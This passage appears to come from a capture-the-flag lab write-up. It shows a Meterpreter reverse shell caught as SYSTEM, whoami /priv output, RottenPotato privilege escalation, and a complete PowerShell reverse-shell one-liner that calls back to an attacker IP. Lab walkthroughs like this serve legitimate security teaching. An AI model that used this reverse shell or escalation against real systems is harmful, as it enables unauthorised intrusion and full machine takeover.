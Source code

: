 This gives us a callback, which is a system shell:

```

msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:8084
[*] Sending stage (206403 bytes) to 10.10.10.82
[*] Meterpreter session 1 opened (10.10.14.14:8084 -> 10.10.10.82:49168) at 2018-08-03 07:22:00 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

### RottenPotato Privesc

If we check `whoami /priv`, we’ll see SeImpersonatePrivilege:

```

PS C:\windows\system32\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

This means that we can likely use RottenPotato (or LonelyPotato).

First, we’ll upload two files to the server. `MSFRottenPotato.exe` and `rev.bat`. The exe is from [Decoder’s GitHub page](https://github.com/decoder-it) for [lonelypotato](https://github.com/decoder-it/lonelypotato). The second is a simple powershell command to get a shell:

```

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.14',8085); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ ;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}; $client.Close()"

```
